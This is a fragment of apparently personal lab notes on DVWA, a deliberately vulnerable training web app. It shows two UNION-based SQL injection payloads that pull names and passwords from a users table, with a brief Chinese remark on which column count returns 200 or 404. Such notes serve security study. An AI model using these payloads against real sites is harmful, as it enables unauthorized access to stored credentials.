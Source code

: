 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2083.png)

```bash
# response code is 200
0' UNION SELECT first_name,password FROM users WHERE user_id <>'
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2084.png)

如果只回傳一個欄位，會得到 404

```bash
# 404
0' UNION SELECT password FROM users WHERE user_id <>'
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2085.png)
